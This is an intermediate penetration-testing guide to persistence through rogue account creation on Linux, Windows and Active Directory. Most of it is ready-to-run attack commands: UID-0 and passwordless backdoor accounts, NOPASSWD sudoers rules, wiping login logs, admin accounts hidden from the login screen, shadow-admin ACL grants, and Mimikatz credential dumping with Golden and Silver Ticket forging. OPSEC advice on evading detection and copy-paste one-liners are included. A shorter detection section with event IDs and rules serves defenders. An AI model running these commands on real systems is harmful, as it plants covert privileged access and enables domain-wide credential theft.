

# Persistence via Account Creation

> **Difficulty:** Intermediate | **Category:** Penetration Testing | **MITRE ATT&CK:** [T1136](https://attack.mitre.org/techniques/T1136/)

---

## 1. Introduction

Account creation is one of the **most durable persistence mechanisms** available to an attacker. Unlike file-based backdoors, scheduled tasks, or service implants, a rogue account:

- Survives **service restarts** and system reboots
- Survives **binary cleanup** and EDR-triggered file deletion
- Survives **cron/task removal** sweeps
- Persists until the account itself is **discovered and explicitly deleted**
- Can be replicated across systems using the same credentials

The technique maps to **MITRE ATT&CK T1136 – Create Account** with sub-techniques:

| Sub-Technique | ID | Description |
|---|---|---|
| Local Account | T1136.001 | Create local OS user account |
| Domain Account | T1136.002 | Create Active Directory domain user |
| Cloud Account | T1136.003 | Create cloud IAM/tenant account |

> **Note:** Account creation is also a **high-signal detection event** — most SIEMs alert on it. Stealth and naming convention are critical to avoiding immediate eviction.

---

## 2. Linux — User Account Creation

### 2.1 Using `useradd`

The most straightforward method. With root access, you can assign UID 0 to create a second root account.

```bash
# Create user with root UID — full root privileges without being named "root"
useradd -o -u 0 -g 0 -s /bin/bash backdoor
echo 'backdoor:P@ssw0rd!' | chpasswd

# With home directory (-m creates /home/backdoor)
useradd -o -u 0 -g 0 -m -s /bin/bash backdoor
echo 'backdoor:P@ssw0rd!' | chpasswd

# Confirm the account has UID 0
id backdoor
# uid=0(root) gid=0(root) groups=0(root)

# Switch to the backdoor account
su backdoor
whoami
# root
```

> **Warning:** The `-o` flag is required to allow duplicate UIDs. Without it, `useradd` will refuse to assign UID 0 if root already holds it.

### 2.2 Direct `/etc/passwd` Manipulation

Bypasses `useradd` entirely — useful if the binary is monitored or missing.

```bash
# Passwordless root-level account (empty password field = no password required)
echo 'backdoor::0:0:root:/root:/bin/bash' >> /etc/passwd
su backdoor
# No password prompt — instant root shell

# With a pre-generated password hash
# Generate MD5-crypt hash (portable across most Linux systems)
openssl passwd -1 "P@ssw0rd!"
# Output example: $1$abc12345$HASHEDVALUE

# Append the full passwd entry
echo 'backdoor:$1$abc12345$HASHEDVALUE:0:0:root:/root:/bin/bash' >> /etc/passwd

# Verify the entry was written correctly
grep backdoor /etc/passwd
tail -1 /etc/passwd
```

The `/etc/passwd` format (colon-delimited):

```
username:password:UID:GID:GECOS/comment:home_dir:shell
backdoor:x:0:0:System Service:/root:/bin/bash
```

> **Note:** Modern systems use an `x` in the password field and store hashes in `/etc/shadow`. Writing a hash directly to `/etc/passwd` still works on systems where `/etc/shadow` is not enforced, but using `/etc/shadow` is more reliable.

### 2.3 `/etc/shadow` Manipulation

For systems enforcing shadow passwords (all modern Linux distributions).

```bash
# Generate a strong SHA-512 hash (recommended — most systems accept this)
python3 -c "import crypt; print(crypt.crypt('P@ssw0rd!', crypt.mksalt(crypt.METHOD_SHA512)))"
# Output: $6$SALTSALT$LONGHASHVALUE...

# Alternative using openssl
openssl passwd -6 "P@ssw0rd!"
# Output: $6$SALTSALT$LONGHASHVALUE...

# Alternative using mkpasswd (if installed)
mkpasswd -m sha-512 "P@ssw0rd!"

# Append shadow entry
# Format: username:hash:lastchange:min:max:warn:inactive:expire:reserved
echo 'backdoor:$6$SALTSALT$LONGHASHVALUE:18000:0:99999:7:::' >> /etc/shadow

# Set correct permissions (shadow must not be world-readable)
chmod 640 /etc/shadow
chown root:shadow /etc/shadow

# Verify
grep backdoor /etc/shadow
```

Shadow file field reference:

| Field | Position | Meaning |
|---|---|---|
| username | 1 | Login name |
| password hash | 2 | `$6$` = SHA-512, `$1$` = MD5, `$2y$` = bcrypt |
| last change | 3 | Days since Jan 1 1970 |
| min age | 4 | Min days before password can change |
| max age | 5 | Max days before password must change |
| warn period | 6 | Days before expiry to warn user |
| inactive period | 7 | Days after expiry before disable |
| expiry date | 8 | Absolute disable date (days since epoch) |

### 2.4 Passwordless Account via `passwd -d`

```bash
# Remove password entirely — allows su without any password
passwd -d backdoor

# Verify (password field will be empty)
grep backdoor /etc/shadow

# Test — no password required
su backdoor
whoami
```

### 2.5 Elevating an Existing User

If creating a new account is too risky, escalate an existing low-privilege account.

```bash
# Add to sudo group (Debian/Ubuntu)
usermod -aG sudo existing_user

# Add to wheel group (RHEL/CentOS/Fedora)
usermod -aG wheel existing_user

# Verify group membership
id existing_user
groups existing_user

# Add NOPASSWD sudo rule (persistent across reboots, survives group changes)
echo 'backdoor ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers

# Safer — use sudoers.d drop-in (less likely to break sudoers parsing)
echo 'backdoor ALL=(ALL) NOPASSWD: ALL' > /etc/sudoers.d/backdoor
chmod 440 /etc/sudoers.d/backdoor

# Verify sudoers syntax before logging out (critical — a broken sudoers locks you out)
visudo -c
```

> **Warning:** Always validate `/etc/sudoers` with `visudo -c` after editing. A syntax error in sudoers will prevent **all** sudo access until repaired from a root shell or recovery mode.

---

## 3. Linux — Hiding the Account

### 3.1 Convincing System Account Names

Use names that blend with existing system accounts. Defenders scanning `/etc/passwd` should be confused, not alarmed.

```bash
# Check existing system account naming conventions on the target
cat /etc/passwd | awk -F: '$3 < 1000 {print $1}' | sort

# Common system account names to mimic
# daemon, bin, sys, sync, games, man, lp, mail, news, uucp,
# proxy, www-data, backup, list, irc, gnats, nobody, systemd-*,
# messagebus, syslog, _apt, tss, uuidd, tcpdump, landscape

# Create with a system-like name
useradd -o -u 0 -g 0 -s /bin/bash systemd-update
useradd -o -u 0 -g 0 -s /bin/bash www-data2
useradd -o -u 0 -g 0 -s /bin/bash daemon2
```

### 3.2 Low UID Assignment

```bash
# Accounts with UID < 1000 are conventionally system accounts
# They won't appear in most GUI login managers or `who` output
useradd -o -u 999 -g 999 -s /bin/bash sys_monitor

# Assign a UID that appears to already belong to a system service
# (check what's actually in use first)
awk -F: '{print $3}' /etc/passwd | sort -n | tail -20

# Pick an unused UID in the 200-999 range
useradd -o -u 450 -g 0 -s /bin/bash syslog2
```

### 3.3 Hiding from `who` / `w` / `last` Output

```bash
# Lock the account (prevents direct login) but allow su from root
usermod -L backdoor

# The account won't generate utmp/wtmp entries from direct login
# Root can still switch: su - backdoor
# Test:
su - backdoor
whoami

# Clean login records (forensics evasion — noisy, do with caution)
# wtmp (stores who output)
echo > /var/log/wtmp
# btmp (failed logins)
echo > /var/log/btmp
# lastlog
echo > /var/log/lastlog
```

### 3.4 Account Expiry and Metadata

```bash
# Set expiry far in the future so account doesn't auto-disable
chage -E 2099-12-31 backdoor

# Set a comment field that looks legitimate
usermod -c "System Monitoring Service" backdoor
chfn -f "Network Daemon" -r "" -w "" -h "" backdoor

# Show current account aging info
chage -l backdoor

# Verify full passwd entry looks clean
grep backdoor /etc/passwd
```

### 3.5 Hide from Login Managers (GUI)

```bash
# Most GUI login managers (GDM, LightDM) skip accounts with UID < 1000
# and those with shell set to /sbin/nologin or /usr/sbin/nologin

# Set nologin shell (still allows su from root, blocks direct login)
usermod -s /usr/sbin/nologin backdoor

# Confirm su still works with nologin shell
su - backdoor -s /bin/bash
# The -s flag overrides the shell for this session
```

---

## 4. Windows — Local Account Creation

### 4.1 `net user` (CMD)

```cmd
:: Create a local user account
net user backdoor P@ssw0rd! /add

:: Add to local Administrators group (full local admin)
net localgroup administrators backdoor /add

:: Add to Remote Desktop Users (allows RDP without being local admin)
net localgroup "Remote Desktop Users" backdoor /add

:: Set password to never expire (critical for persistence)
net user backdoor /expires:never

:: Disable password change requirement
net user backdoor /passwordchg:no

:: Verify the account was created with correct settings
net user backdoor

:: List all local administrators
net localgroup administrators
```

### 4.2 PowerShell — `LocalAccounts` Module

```powershell
# Create local user with a convincing description
$SecurePass = ConvertTo-SecureString "P@ssw0rd!" -AsPlainText -Force
New-LocalUser `
    -Name "svc_update" `
    -Password $SecurePass `
    -FullName "Windows Update Service" `
    -Description "Manages Windows Update operations" `
    -PasswordNeverExpires $true `
    -UserMayNotChangePassword $true

# Add to Administrators
Add-LocalGroupMember -Group "Administrators" -Member "svc_update"

# Add to Remote Desktop Users
Add-LocalGroupMember -Group "Remote Desktop Users" -Member "svc_update"

# Verify
Get-LocalUser -Name "svc_update" | Select-Object *
Get-LocalGroupMember -Group "Administrators"
```

### 4.3 WMI Method (Avoids `net.exe` detection)

```powershell
# Create account via WMI — avoids net.exe process creation events
$computer = [ADSI]"WinNT://$env:COMPUTERNAME"
$user = $computer.Create("User", "svc_monitor")
$user.SetPassword("P@ssw0rd!")
$user.SetInfo()
$user.UserFlags = 0x10000  # ADS_UF_DONT_EXPIRE_PASSWD
$user.SetInfo()

# Add to Administrators via WMI
$group = [ADSI]"WinNT://$env:COMPUTERNAME/Administrators,group"
$group.Add("WinNT://$env:COMPUTERNAME/svc_monitor,user")
```

> **Note:** WMI account creation still generates Event ID 4720 but avoids `net.exe` process-based detection rules.

---

## 5. Windows — Hiding the Account from the Login Screen

### 5.1 Registry Special Accounts Key

```cmd
:: Hide account from the Windows Welcome/Login screen
:: The account remains fully functional — just invisible in the GUI
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v svc_update /t REG_DWORD /d 0 /f

:: Verify the key was created
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList"

:: The account is still accessible via:
::   runas /user:svc_update cmd.exe
::   RDP (mstsc) — hidden accounts CAN log in via RDP
::   net use \\server\share /user:svc_update
```

```powershell
# PowerShell equivalent
$regPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList"
If (-Not (Test-Path $regPath)) {
    New-Item -Path $regPath -Force | Out-Null
}
Set-ItemProperty -Path $regPath -Name "svc_update" -Value 0 -Type DWord

# Verify
Get-ItemProperty -Path $regPath
```

### 5.2 Hiding from Settings / Control Panel

```cmd
:: Accounts hidden via the SpecialAccounts registry key will also be
:: hidden from: Settings > Accounts > Other Users
:: and from: Control Panel > User Accounts

:: For extra stealth, rename the account to match a service pattern
:: (cannot rename accounts in Windows — create with the right name from the start)

:: Check current hidden accounts (defenders look here)
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" 2>nul
```

> **Warning:** The `SpecialAccounts` registry key is a well-known attacker technique. Many EDR and SIEM rules explicitly alert on writes to this key. Consider whether hiding is worth the detection risk vs. just blending in with a convincing name.

---

## 6. Windows — Enable Built-in Administrator Account

The built-in Administrator account (RID 500) is disabled by default but cannot be deleted. Re-enabling it is stealthy because it doesn't create a new 4720 event.

```cmd
:: Enable the built-in Administrator account
net user administrator /active:yes

:: Set a password
net user administrator P@ssw0rd!

:: Verify current status
net user administrator

:: Hide from login screen after enabling
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v administrator /t REG_DWORD /d 0 /f
```

```powershell
# PowerShell equivalent
Enable-LocalUser -Name "Administrator"
Set-LocalUser -Name "Administrator" -Password (ConvertTo-SecureString "P@ssw0rd!" -AsPlainText -Force)

# Verify
Get-LocalUser -Name "Administrator"
```

### 6.1 Enable Guest Account with Admin Rights (Noisy — Last Resort)

```cmd
:: Enable Guest account
net user guest /active:yes
net user guest P@ssw0rd!

:: Elevate Guest to admin — very noisy
net localgroup administrators guest /add

:: This will trigger multiple event IDs simultaneously
:: Use only if speed > stealth
```

---

## 7. Active Directory — Domain Account Persistence

### 7.1 Create a New Domain User

```powershell
# Requires Domain Admin or Account Operators group membership
Import-Module ActiveDirectory

# Create a user that looks like a service account
New-ADUser `
    -Name "svc_backup" `
    -SamAccountName "svc_backup" `
    -UserPrincipalName "svc_backup@corp.local" `
    -DisplayName "Backup Service Account" `
    -Description "Used by enterprise backup solution" `
    -AccountPassword (ConvertTo-SecureString "P@ssw0rd!" -AsPlainText -Force) `
    -Enabled $true `
    -PasswordNeverExpires $true `
    -CannotChangePassword $true `
    -Path "OU=Service Accounts,DC=corp,DC=local"
```

```cmd
:: CMD equivalent
net user svc_backup P@ssw0rd! /add /domain
net user svc_backup /domain /passwordchg:no /expires:never
```

### 7.2 Add to Privileged AD Groups

```powershell
# Add to Domain Admins (highest visibility — use sparingly)
Add-ADGroupMember -Identity "Domain Admins" -Members "svc_backup"

# Add to Enterprise Admins (forest-wide admin — only in root domain)
Add-ADGroupMember -Identity "Enterprise Admins" -Members "svc_backup"

# Add to Schema Admins (can modify AD schema)
Add-ADGroupMember -Identity "Schema Admins" -Members "svc_backup"

# Add to Backup Operators (can bypass file permissions, backup SAM database)
Add-ADGroupMember -Identity "Backup Operators" -Members "svc_backup"

# Verify current group memberships
Get-ADUser svc_backup -Properties MemberOf | Select-Object -ExpandProperty MemberOf
```

```cmd
:: CMD equivalents
net group "Domain Admins" svc_backup /add /domain
net group "Enterprise Admins" svc_backup /add /domain
```

### 7.3 Shadow Admin — Privilege Without Group Membership

A **shadow admin** holds effective administrative control over AD objects without appearing in any obvious privileged group. This is the stealthiest form of AD account persistence.

```powershell
# Grant GenericAll on Domain Admins group object (allows adding self to group later)
# Requires current Domain Admin to set this up
$domainAdminsGroup = Get-ADGroup "Domain Admins"
$acl = Get-Acl "AD:\$($domainAdminsGroup.DistinguishedName)"

$identity = [System.Security.Principal.NTAccount]"CORP\svc_backup"
$adRight = [System.DirectoryServices.ActiveDirectoryRights]"GenericAll"
$type = [System.Security.AccessControl.AccessControlType]"Allow"
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($identity, $adRight, $type)

$acl.AddAccessRule($ace)
Set-Acl -Path "AD:\$($domainAdminsGroup.DistinguishedName)" -AclObject $acl

# Now svc_backup can add itself to Domain Admins whenever needed:
# Add-ADGroupMember -Identity "Domain Admins" -Members "svc_backup"
# — without being in DA during normal operation (avoids group membership alerts)
```

```powershell
# Alternative: Add to Account Operators group
# Account Operators can create/modify accounts in most OUs
# Often missed in AD audits (not in DA, EA, or Schema Admins)
Add-ADGroupMember -Identity "Account Operators" -Members "svc_backup"

# Also check for writable ACLs using BloodHound / PowerView
# Look for: GenericAll, GenericWrite, WriteDACL, WriteOwner on high-value objects
Import-Module PowerView
Find-InterestingDomainAcl -ResolveGUIDs | Where-Object {$_.IdentityReferenceName -eq "svc_backup"}
```

> **Note:** Shadow admin techniques are detailed in BloodHound/SharpHound output. Any path showing `svc_backup → GenericAll → Domain Admins` represents shadow admin access.

---

## 8. Active Directory — Golden Ticket (Kerberos Persistence)

A **Golden Ticket** is a forged Kerberos Ticket Granting Ticket (TGT) signed with the `krbtgt` account's NTLM hash. It grants access to any resource in the domain as any user — **even if the backdoor account is deleted.**

```
Golden Ticket validity: 10 years (default)
Survives: password resets, account deletion, reboots
Remediation: krbtgt password must be changed TWICE (≥24h apart)
```

### 8.1 Extract `krbtgt` Hash (Mimikatz)

```cmd
:: Run on Domain Controller with SYSTEM/DA privileges
mimikatz.exe

mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch
:: Look for: krbtgt  Hash NTLM: <32-char hex>

:: Alternative — DCSync (does not require local DC access)
mimikatz # lsadump::dcsync /domain:corp.local /user:krbtgt
:: Extracts: Hash NTLM: <32-char hex>
```

### 8.2 Create and Use the Golden Ticket

```cmd
:: Gather required values first:
::   /domain  — FQDN of the domain
::   /sid     — Domain SID (whoami /user, strip last -XXXX)
::   /krbtgt  — NTLM hash of krbtgt account
::   /user    — Any username (doesn't need to exist)

mimikatz # kerberos::golden /user:administrator /domain:corp.local /sid:S-1-5-21-1234567890-0987654321-1122334455 /krbtgt:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX /ptt

:: /ptt = Pass The Ticket (inject into current session immediately)
:: Access any domain resource:
dir \\dc01\c$
psexec \\dc01 cmd.exe
```

```powershell
# Rubeus alternative (C# — often less detected than mimikatz)
.\Rubeus.exe golden /rc4:KRBTGTHASH /domain:corp.local /sid:S-1-5-21-xxx /user:administrator /ptt
```

---

## 9. Active Directory — Silver Ticket

A **Silver Ticket** is a forged Kerberos Service Ticket (TGS) signed with a **service account's** NTLM hash. More targeted and stealthier than a Golden Ticket because it never contacts the KDC.

```cmd
:: Requirements:
::   /service  — SPN of the target service (e.g., cifs, http, mssql)
::   /rc4      — NTLM hash of the SERVICE ACCOUNT (not krbtgt)
::   /target   — Hostname of target server

mimikatz # kerberos::golden /user:administrator /domain:corp.local /sid:S-1-5-21-xxx /target:fileserver01.corp.local /service:cifs /rc4:SERVICEACCOUNTHASH /ptt

:: Access the specific service:
dir \\fileserver01\c$
```

| | Golden Ticket | Silver Ticket |
|---|---|---|
| Hash Required | krbtgt | Service account |
| Scope | Any service, any host | One service on one host |
| KDC Contact | TGT → KDC → TGS | No KDC contact needed |
| Stealth | Lower | Higher |
| Detection | KDC logs TGT request | No KDC event generated |
| Persistence | 10 years | Shorter (ST expiry) |

---

## 10. Persistence Flow Diagram



---

## 11. Detection & Defensive Indicators

### 11.1 Windows Event IDs

| Event ID | Description | Triggered By |
|---|---|---|
| 4720 | User account created | `net user /add`, PowerShell, WMI |
| 4722 | User account enabled | Enabling disabled accounts |
| 4723 | Password change attempt | User changing own password |
| 4724 | Password reset attempt | Admin resetting a password |
| 4732 | Member added to local security group | `net localgroup ... /add` |
| 4728 | Member added to global security group | `net group ... /add /domain` |
| 4756 | Member added to universal security group | AD universal group changes |
| 4735 | Security-enabled local group modified | Group description/name change |
| 4625 | Account logon failure | Brute force / testing creds |
| 4768 | Kerberos TGT requested | Golden ticket usage may show anomalies |
| 4769 | Kerberos service ticket requested | Silver ticket leaves no 4768 |

### 11.2 Linux Indicators

```bash
# Monitor /etc/passwd for new entries
inotifywait -m /etc/passwd /etc/shadow

# Check for accounts with UID 0 (should ONLY be root)
awk -F: '($3 == 0) {print}' /etc/passwd

# Check for accounts with empty passwords
awk -F: '($2 == "") {print $1}' /etc/shadow

# Review recently modified passwd/shadow
stat /etc/passwd
stat /etc/shadow
ls -la /etc/passwd /etc/shadow

# Check auth logs for user creation
grep -E "(useradd|adduser|usermod)" /var/log/auth.log
grep -E "(useradd|adduser|usermod)" /var/log/secure  # RHEL/CentOS

# Look for accounts added to sudoers
cat /etc/sudoers | grep -v "^#" | grep -v "^$"
ls -la /etc/sudoers.d/
cat /etc/sudoers.d/*
```

### 11.3 Active Directory Indicators

```powershell
# Find recently created AD accounts (last 7 days)
$since = (Get-Date).AddDays(-7)
Get-ADUser -Filter {Created -ge $since} -Properties Created, Description, PasswordNeverExpires |
    Select-Object Name, SamAccountName, Created, Description, PasswordNeverExpires

# Find accounts with PasswordNeverExpires (suspicious for user accounts)
Get-ADUser -Filter {PasswordNeverExpires -eq $true -and Enabled -eq $true} |
    Select-Object Name, SamAccountName

# Find members of highly privileged groups
@("Domain Admins","Enterprise Admins","Schema Admins","Backup Operators","Account Operators") | ForEach-Object {
    Write-Host "`n=== $_ ===" -ForegroundColor Yellow
    Get-ADGroupMember -Identity $_ -Recursive | Select-Object Name, SamAccountName, objectClass
}
```

### 11.4 SIEM/Detection Rules (Sigma-style logic)

```yaml
# Suspicious: New account with UID 0 (Linux)
title: Linux Account Created with UID 0
detection:
  keywords:
    - 'uid=0'
  process_name: 'useradd'

# Suspicious: Account added to Domain Admins
title: User Added to Domain Admins
eventid: 4728
group_name: 'Domain Admins'

# Suspicious: SpecialAccounts registry modification
title: Windows Login Screen Account Hidden
eventid: 13  # Registry value set (Sysmon)
target_object: '*SpecialAccounts\UserList*'
```

---

## 12. OPSEC Considerations

### 12.1 Naming Conventions

> **Note:** The account name is the **first thing a defender will see**. Invest time in researching the target's naming conventions before creating any account.

```bash
# Reconnaissance — gather existing naming patterns before creating anything
# On Windows (from domain context):
net user /domain | findstr svc
Get-ADUser -Filter * -Properties Description | Where-Object {$_.SamAccountName -like "svc*"} | Select-Object SamAccountName, Description

# Common service account patterns by industry:
# Enterprise:  svc_backup, svc_monitor, svc_deploy, svc_scan
# Healthcare:  hl7_svc, epic_svc, pacs_svc
# Finance:     fin_svc, audit_svc, rpt_svc
# General IT:  admin_svc, mgmt_svc, wmi_svc, sys_monitor
```

### 12.2 Metadata Realism

```powershell
# Windows — set realistic account metadata
Set-ADUser "svc_backup" `
    -Description "Enterprise Backup Solution Service Account" `
    -Office "IT Infrastructure" `
    -Company "Corp IT" `
    -Department "Infrastructure Services"

# Set a realistic 'Created' date if possible (requires schema admin — not typical)
# Instead, ensure the account's Description matches its supposed creation context
```

```bash
# Linux — realistic GECOS field
usermod -c "Automated Monitoring Agent" sys_monitor
# Result in /etc/passwd:
# sys_monitor:x:450:0:Automated Monitoring Agent:/var/lib/monitoring:/usr/sbin/nologin
```

### 12.3 Timing and Sequencing

```
OPSEC Timeline (recommended spacing):

T+0:00  — Create account (generates 4720 / auth.log entry)
T+0:05  — Wait 5 minutes before any further modification
T+0:05  — Set password expiry / metadata (low-signal events)
T+1:00  — Add to group (generates 4728/4732) — minimum 1 hour delay
T+24:00 — First test of access — wait at least 24 hours
T+24:00 — Confirm access works before removing other persistence mechanisms
```

> **Warning:** Adding an account to Domain Admins within minutes of creation is a **high-confidence** detection signal for most EDR/SIEM products. The combination of 4720 + 4728 (DA group) within a short window is a common alert rule.

### 12.4 Password Policy Compliance

```bash
# Enumerate target's password policy before creating accounts
# Active Directory:
Get-ADDefaultDomainPasswordPolicy
# Linux: 
cat /etc/security/pwquality.conf
cat /etc/pam.d/common-password | grep pam_pwquality

# Password must:
# - Meet minimum length (typically 8-12 chars)
# - Contain uppercase, lowercase, digit, special char
# - Not appear in common password lists
# - Not contain the account name

# Safe default that passes most policies:
# Format: [UpperCase][Lowercase]{6}[Digit]{2}[Special]
# Example: Svc_Backup!99 / Monitor@2099 / Sys!Update23
```

### 12.5 Cleanup vs. Persistence Trade-off

```
┌─────────────────────────────────────────────────────┐
│  DECISION: Should you delete the account post-op?   │
├─────────────────────────────────────────────────────┤
│ Leave it:  Maximum persistence, risk of discovery   │
│            Useful for multi-phase engagements       │
│                                                     │
│ Delete it: Clean exit, harder to detect post-op     │
│            Loses persistence if re-entry needed     │
│                                                     │
│ Recommendation for pentests:                        │
│   Document account → Confirm in report →            │
│   Delete during cleanup phase (agreed scope)        │
└─────────────────────────────────────────────────────┘
```

---

## 13. Summary Table

| Method | OS/Platform | Key Commands | Privilege Required | Stealth Level | Primary Detection Event |
|---|---|---|---|---|---|
| `useradd` UID 0 | Linux | `useradd -ou 0 -g 0` | Root | Medium | auth.log, auditd |
| `/etc/passwd` edit | Linux | `echo ... >> /etc/passwd` | Root | Medium-High | File integrity monitoring |
| `/etc/shadow` edit | Linux | `echo ... >> /etc/shadow` | Root | High | File integrity monitoring |
| sudoers entry | Linux | `echo ... >> /etc/sudoers.d/` | Root | High | File change events |
| `net user /add` | Windows | `net user backdoor /add` | Local Admin | Low | Event ID 4720 |
| PowerShell LocalUser | Windows | `New-LocalUser` | Local Admin | Low-Medium | Event ID 4720 |
| SpecialAccounts key | Windows | `reg add ...SpecialAccounts` | Local Admin | Medium | Sysmon Event 13 |
| Enable built-in Admin | Windows | `net user administrator /active:yes` | Local Admin | Medium-High | Event ID 4722 |
| New-ADUser | Active Directory | `New-ADUser -Name svc_backup` | Domain Admin | Low | Event ID 4720 (DC) |
| Add to Domain Admins | Active Directory | `Add-ADGroupMember "Domain Admins"` | Domain Admin | Low | Event ID 4728 |
| Shadow Admin (ACL) | Active Directory | PowerView / AD ACL cmdlets | Domain Admin | Very High | ACL change audit logs |
| Golden Ticket | Active Directory | `mimikatz kerberos::golden` | DA + krbtgt hash | High | Anomalous TGT events |
| Silver Ticket | Active Directory | `mimikatz kerberos::silver` | Service hash | Very High | No KDC event |

---

## 14. Quick Reference Cheatsheet

### Linux Oneliner (UID 0 backdoor)

```bash
useradd -ou 0 -g 0 -m -s /bin/bash sysupdate && echo 'sysupdate:P@ssw0rd!' | chpasswd && echo 'sysupdate ALL=(ALL) NOPASSWD: ALL' > /etc/sudoers.d/sysupdate && chmod 440 /etc/sudoers.d/sysupdate
```

### Windows CMD Oneliner

```cmd
net user svc_monitor P@ssw0rd! /add && net localgroup administrators svc_monitor /add && net user svc_monitor /expires:never && reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v svc_monitor /t REG_DWORD /d 0 /f
```

### PowerShell AD Oneliner

```powershell
New-ADUser -Name "svc_backup" -SamAccountName "svc_backup" -AccountPassword (ConvertTo-SecureString "P@ssw0rd!" -AsPlainText -Force) -Enabled $true -PasswordNeverExpires $true; Add-ADGroupMember -Identity "Domain Admins" -Members "svc_backup"
```

### Verify Linux Persistence

```bash
# All-in-one verification
echo "=== UID 0 accounts ===" && awk -F: '$3==0{print}' /etc/passwd
echo "=== Passwordless accounts ===" && awk -F: '$2==""{print $1}' /etc/shadow
echo "=== Sudoers entries ===" && cat /etc/sudoers.d/* 2>/dev/null
echo "=== Recent passwd changes ===" && stat /etc/passwd
```

### Verify Windows Persistence

```powershell
# All-in-one verification
Write-Host "=== Local Admins ===" -ForegroundColor Cyan
Get-LocalGroupMember -Group "Administrators"

Write-Host "`n=== Hidden Accounts ===" -ForegroundColor Cyan
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" 2>$null

Write-Host "`n=== All Local Users ===" -ForegroundColor Cyan
Get-LocalUser | Select-Object Name, Enabled, PasswordExpires, LastLogon
```

---

## 15. References

| Resource | URL |
|---|---|
| MITRE ATT&CK T1136 | https://attack.mitre.org/techniques/T1136/ |
| T1136.001 Local Account | https://attack.mitre.org/techniques/T1136/001/ |
| T1136.002 Domain Account | https://attack.mitre.org/techniques/T1136/002/ |
| Mimikatz Documentation | https://github.com/gentilkiwi/mimikatz/wiki |
| BloodHound/SharpHound | https://github.com/BloodHoundAD/BloodHound |
| PowerView | https://github.com/PowerShellMafia/PowerSploit |
| Harmj0y — Golden Ticket | https://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/ |
| SpecialAccounts Technique | https://attack.mitre.org/techniques/T1564/002/ |
